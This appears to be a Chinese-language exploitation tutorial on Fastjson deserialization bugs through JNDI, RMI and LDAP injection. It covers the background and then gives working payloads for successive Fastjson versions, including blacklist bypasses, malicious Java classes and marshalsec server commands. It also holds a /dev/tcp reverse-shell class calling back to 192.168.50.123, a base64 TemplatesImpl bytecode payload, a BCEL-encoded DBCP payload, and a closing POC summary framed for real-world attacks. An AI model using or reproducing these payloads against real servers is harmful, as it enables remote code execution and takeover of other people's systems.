



## 前提知识


### Java序列化&反序列化

- Java序列化：把Java对象转换为字节序列的过程。
- Java反序列化：把字节序列恢复为Java对象的过程。

### 为什么要用序列化呢？


网络传输只能通过字节流，不能直接传输对象。


进行通信时，发送方需要把这个Java对象转换为字节序列，然后在网络上传送； 接收方需要从字节序列中恢复出Java对象。

- 实现了数据的持久化，通过序列化可以把数据永久地保存
- 利用序列化实现远程通信

> 反序列化常用的JNDI注入有两种利用方式，一种是基于rmi，一种是基于ldap。RMI指的是JAVA的远程方法调用，LDAP是轻量级目录访问协议。


### JNDI


JNDI (Java Naming and Directory Interface) 是一组应用程序接口。


比如，如果lookup方法的参数是可以控制的，就可以将其参数指向我们控制的RMI服务，切换到我们控制的RMI/LDAP服务。


> JNDI是一台交换机，将组件、资源、服务取了名字，再通过名字来查找


### RMI


RMI 允许像在本机上一样操作远程机器上的对象。当发送消息给远程对象和调用远程方法时，需要用到序列化机制来发送和接收返回值。


由此可见，使用 RMI 时会涉及到参数传递和结果返回，参数为对象时，要求对象可以被序列化。


### RMI远程调用步骤


从客户端角度看，服务端应用是有两个端口的，一个是RMI Registry端口，另一个是远程对象的通信端口。


RMI Registry可以和Server端在一台服务器上，也可以在不同的服务器上，不过大多数时候在同一台服务器上且运行在同一JVM环境下。


### JNDI注入原理


将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行。


## jdk关键版本


> 基于rmi的利用方式：适用jdk版本：JDK 6u141, JDK 7u131, JDK 8u121之前。在jdk8u122的时候，加入了反序列化白名单的机制，关闭了rmi远程加载代码。基于ldap的利用方式：适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。在Java 8u191更新中，Oracle对LDAP向量设置了相同的限制，并发布了CVE-2018-3149，关闭了JNDI远程类加载。




- 所以，ldap的利用范围比rmi广，实战情况下推荐使用ldap方法。

## Fastjson


Fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，可以将数据在JSON和Java Object之间互相转换。


## 漏洞成因


FastJson自己实现了一套反序列化的机制，并没有使用默认的readObject()，在序列化反序列化的时候会进行一些操作，主要是setter和getter的操作，同样结合一些类的特性造成命令执行。


```java
class Apple implements Fruit {
    private BigDecimal price;
    //省略 setter/getter、toString等
}

class Banana implements Fruit {
    private BigDecimal price;
    //省略 setter/getter、toString等
}

```

- toJSONString : 将对象`序列化`为字符串
- parseObject ： 将字符串`反序列化`为对象

```java
toJSONString : {"fruit":{"price":0.5}}
toJSONString : {"fruit":{"price":500}}
```


为了解决上述问题，引用了autotype,即在序列化的时候，把原始类型记录下来


```java
{
    "fruit":{
        "@type":"com.hollis.lab.fastjson.test.Apple",
        "price":0.5
    }
}
```


fastjson在解析json的过程中，支持使用`autoType`来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。


那么就可以利用这个特性，自己构造一个JSON字符串，并且使用@type指定一个自己想要使用的攻击类库。


比如`com.sun.rowset.JdbcRowSetImpl`这个类库，是sun官方提供的一个类库，这个类的`dataSourceName`支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。


攻击者准备rmi服务（主机C）和web服务（主机B），构造json数据将rmi绝对路径注入到lookup方法中，受害者（主机A）的JNDI接口会指向攻击者控制RMI服务器（主机C），JNDI接口向攻击者控制web服务器远程加载恶意代码，执行构造函数形成RCE


```java
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://Cip:9999/evilclass",
    "autoCommit": true
}
```


- 主机A引发反序列化漏洞，进行rmi远程方法调用，去连接主机C的9999端口。
- 主机C的rmi服务指定加载主机B的恶意java类，所以主机A通过主机C的rmi服务最终加载并执行主机B的恶意java类。
- 主机A执行恶意Java类，主机B获得反弹shell，控制主机A。

## 影响版本


### Fastjson<=1.2.24


最早期的fastjson版本中，AutoType是默认开启的，并且没有什么限制，可以直接加载恶意类


```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://Cip:9999/Exploit","autoCommit":true} 
```


### Fastjson<=1.2.41


设置了autoTypeSupport属性默认为false，并且增加了checkAutoType()函数，通过黑白名单的方式来防御Fastjson反序列化漏洞


在此期间，发现了在具体加载类的时候会判断类名是否以”L”开头、以”;”结尾，是的话就提取出其中的类名再加载进来，因此在原类名头部加L，尾部加;即可绕过黑名单的同时加载类。


基于黑名单绕过，autoTypeSupport属性为true才能使用


```java
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://Cip:9999/Exploit","autoCommit":true} 
```


### Fastjson<=1.2.42


新加入了检测机制，fastjson先判断目标类的类名的前后是不是L和;，如果是的话，就截取掉前后的L和;再进行黑白名单的校验。


绕过方式改为了双写绕过  `LL和;;`


基于黑名单绕过，autoTypeSupport属性为true才能使用


```java
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://Cip:9999/Exploit", "autoCommit":true}
```


### Fastjson<=1.2.43


检测是否以LL开头，短暂的修复了漏洞


绕过：根据fastjson判断函数，[开头则提取类名，且后面字符字符为"["、"{"等，即可正常调用


基于黑名单绕过，autoTypeSupport属性为true才能使用


```java
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://Cip:9999/Exploit", "autoCommit":true}
```


### Fastjson<=1.2.45


1.2.44时增加限制：只要类以[开头或者以;结尾，直接抛异常


基于黑名单绕过，autoTypeSupport属性为true才能使用


```java
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"datasource":"ldap://Cip:9999/Exploit"}}
```


> 以上的这些利用方式都是只有在autoTypeSupport属性为true才能使用，fastjson>=1.2.25默认为false


### Fastjson<=1.2.47


版本小于1.2.48的版本通杀，在autoType为false时生效，loadClass中默认cache设置为true，在类加载的时候，如果autotype没开启，会先尝试从缓存中获取类，如果缓存中有，则直接返回。


首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.JdbcRowSetImpl这个类，绕过了黑名单机制


autoTypeSupport属性为false才能使用


```java
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://Cip:9999/jndi", 
        "autoCommit": true
    }
}
```


### Fastjson<=1.2.62


在1.2.48版本中，设置了fastjson cache为false


基于黑名单绕过，autoTypeSupport属性为true才能使用


```java
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://Cip:9999/exploit"}";
```


### Fastjson<=1.2.66


基于黑名单绕过，autoTypeSupport属性为true才能使用


```java
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
```


## Fastjson 1.2.24 利用过程


先通过dnslog检测漏洞是否存在


执行成功





### RMI攻击方式


> 先将恶意类放到指定的http服务下，再开启RMI服务器加载恶意类，在payload中也要指向RMI服务器的地址


恶意类代码如下


```java
import java.lang.Runtime;
import java.lang.Process;
public class dnslog{
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/sh", "-c", "ping user.whoami.n9xpa1.dnslog.cn";
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```


使用marshalsec工具快捷的开启RMI服务


```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.50.123:8000/#dnslog" 9999
```


请求192.168.50.123上的dnslog.class文件


验证是否成功


若要获取shell，只要将执行的命令改为反弹shell的命令即可


```java
import java.io.BufferedReader;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
 
public class Shell{
    public Shell() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/192.168.50.123/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));
 
        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }
 
        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }
 
    public static void main(String[] args) throws Exception {
    }
}
```


```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.50.123:8000/#Shell" 9999
```


成功获取





### LDAP攻击方式


和RMI利用方式相似，只需要更改一下服务类型为ldap


```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.50.123:8000/#Shell" 9999
```


payload如下


```shell
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.50.177:9999/Shell",
        "autoCommit":true
    }
}
```


同样执行成功


## Fastjson 1.2.47 利用过程


```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.50.123:8000/#evilclass" 9999
```


evilclass 执行命令 calc.exe


```java
public class evilclass{
    public evilclass(){
        try{
            Runtime.getRuntime().exec("calc.exe");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
    evilclass c = new evilclass();
    }
}
```


POC


```java
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.50.177:9999/evilclass","autoCommit":true}}}
```


成功弹出了计算器


## 服务器不出网情况利用


如果遇到无法出网的机器，这时候无法通过 JNDI 注入来进行反弹等操作。直接`本地反序列化`利用


**限制条件**：

- `BasicDataSource`(tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4)
- `TemplatesImpl` 需要解析的时候设置 Feature.SupportNonPublicField

### TemplatesImpl的利用


> TemplatesImpl类，有一个字段是 \_bytecodes，有部分函数会根据这个_bytecodes生成java实例，这就达到fastjson通过字段传入一个类，再通过这个类被生成时执行构造函数。


但是这种利用方式需要一个特定的触发条件，解析JSON的时候需要使用Feature才能触发，代码如下：


```java
JSONObject.parseObject(sb.toString(), new Feature[]{Feature.SupportNonPublicField});
```


由于这个前提的存在，基本不太可能能在实战环境成功遇到。


`恶意类代码`


```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;


public class Calc extends AbstractTranslet {
    public Calc() throws IOException {        
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});    
    }    
    @Override    
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
        }    
    @Override    
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {    }    
    public static void main(String[] args) throws Exception {        
        Calc t = new Calc();    
    }
}
```


对class类文件进行base64编码


```python
import base64
fin = open(r"Calc.class", "rb")
fout = open(r"en.txt", "w")
s = base64.encodestring(fin.read()).replace("\n", "")
fout.write(s)
fin.close()
fout.close()
```


修改 `json` 的 _`bytecodes`_ 为 刚刚生成的 `base64` 文本


```java
{    
"a": {        
"@type": "java.lang.Class",        
"val": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"        
},    
"b": {        
"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",        
"bytecodes": ["yv66vgAAADQALAoACgAaCgAbABwHAB0IAB4IAB8IACAKABsAIQcAIgoACAAaBwAjAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHACQBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAlAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACYBAApTb3VyY2VGaWxlAQAJQ2FsYy5qYXZhDAALAAwHACcMACgAKQEAEGphdmEvbGFuZy9TdHJpbmcBAANjbWQBAAIvYwEABGNhbGMMACoAKwEABENhbGMBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAgACgAAAAAABAABAAsADAACAA0AAAA/AAUAAQAAAB8qtwABuAACBr0AA1kDEgRTWQQSBVNZBRIGU7YAB1exAAAAAQAOAAAADgADAAAACgAEAAsAHgAMAA8AAAAEAAEAEAABABEAEgABAA0AAAAZAAAABAAAAAGxAAAAAQAOAAAABgABAAAADwABABEAEwACAA0AAAAZAAAAAwAAAAGxAAAAAQAOAAAABgABAAAAEQAPAAAABAABABQACQAVABYAAgANAAAAJQACAAIAAAAJuwAIWbcACUyxAAAAAQAOAAAACgACAAAAEwAIABQADwAAAAQAAQAXAAEAGAAAAAIAGQ=="],        
'name': 'a.b',        
'tfactory': {},        
"outputProperties": {},        
"name": "b",        
"version": "1.0",        
"allowedProtocols": "all"      
}
}
```


### DBCP的利用


> tomcat有一个tomcat-dbcp.jar组件是tomcat用来连接数据库的驱动程序存在一个org.apache.tomcat.dbcp.dbcp.BasicDataSource类，类中Class.forName可将driverClassLoader和driverClassName设置为json指定的内容，并通过传参数执行代码。通过Class.forName传入BCEL编码的evil.class文件，com.sun.org.apache.bcel.internal.util.ClassLoader的classloader会先把它解码成一个byte[]，然后调用defineClass还原出恶意Class，执行任意代码。于是根据fastjson漏洞逻辑，控制Class.forName加载的类和ClassLoader，加载还原出的恶意Class执行代码。


而且对于不同的Tomcat版本使用的poc也不同：


• Tomcat 8.0以后使用`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`


• Tomcat 8.0以下使用`org.apache.tomcat.dbcp.dbcp.BasicDataSource`


新建 poc_`1 类，代码如下，并执行 javac poc`_`1.java`


```java
import java.io.IOException;

public class poc1 {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```


编码poc_1类


```java
import com.sun.org.apache.bcel.internal.classfile.Utility;
import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;


public class TestBCEL{
    public static void main(String[] args) throws IOException {
        Path path = Paths.get("poc_1.class");
        byte[] bytes = Files.readAllBytes(path);
        System.out.println(bytes.length);
        String result = Utility.encode(bytes,true);
        BufferedWriter bw = new BufferedWriter(new FileWriter("res.txt"));
        bw.write("$$BCEL$$" + result);
        bw.close();
    }
}
```


将生成的 BCEL编码 替换到 driverClassName


```text
{
"a": {
"@type": "java.lang.Class",
"val": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"
},
"b": {
"@type": "java.lang.Class",
"val": "com.sun.org.apache.bcel.internal.util.ClassLoader"
},
"c": {
"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
"driverClassLoader": {
"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
},
"driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$94$96Z$e4$r$f8De$r$b0$90$98$b8$c3$b81$9a$YQ$8c$Q$5d$9aa$9c$90biI$v$86$3fr$cd$G$8d$L$3f$c0$8f2$de$99$Y$qq$W$f7q$ee9$e7$ce$cc$d7$f7$c7$t$80cTlX$c8$db$u$60$cdBQ$e5$92$89u$h$G6Ll$9a$d8bH$9e$b8$be$h$9d2$c4$ab$b5$7b$86$c4Y$f0$q$Z2$z$d7$977$93aO$86$5d$de$f3$I$b1N$84$f7$cbLw$o$$$9e$af$f9H$8f$c8$90$c1$ee$E$93P$c8$LWQ$edQ$m$k$8f$O$H$fc$85$3bH$c16$b1$ed$60$Her$X$dc$T$Ov$b1$c7PP$f3$86$h4$$$db$e7S$nG$91$h$f8$O$f6a3$Y$da$80$n$ab$v$k$f7$fb$8dvo$mE$c4$90$fb$83$ee$s$7e$e4$O$d5$be$be$8c$WM$b1Zk$fd$e34i$b5$9cJ$c1pP$5d$9av$a2$d0$f5$fb$cde$c1m$Y$I9$k$93$m3$a2a$a4$9f$da$N$b9$90$a8$c0$a4$dfT$t$G$a6$deEq$85$ba2eF$d9$a8$bf$81$cd$a8$60p$u$s5$Y$tIzAmk$v$90$7fG$y$l$9f$p$f1$f0$K$eb$aa$3eGr$a6$f1$U$v$N$e2$u$7d$89$w$e5$92$d2$a8I$$$Wr$e4$b4J$a8$89X$cbD$sA$a2$ac$beO$ee$H$bd$d2$f4$3a$f3$B$A$A"
}
}

```


> 在不出网的场景下，如果获取到了网站的根目录，可以通过写入webshell的方式进行攻击，或写入内存shell。参考文章：Springboot 内存shell


## **POC总结**

- fastjson <= 1.2.24 `AutoType=true`

```text
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://x.x.x.x:9999/Shell",
        "autoCommit": true
    }
}
```

- 1.2.25 <= fastjson <= 1.2.47 `AutoType=false`

```text
{
    "a": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://x.x.x.x:1098/jndi",
        "autoCommit": true
    }
}
```


**注：针对fastjson服务器所处系统的不同操作版本，要用不同的命令执行语句**

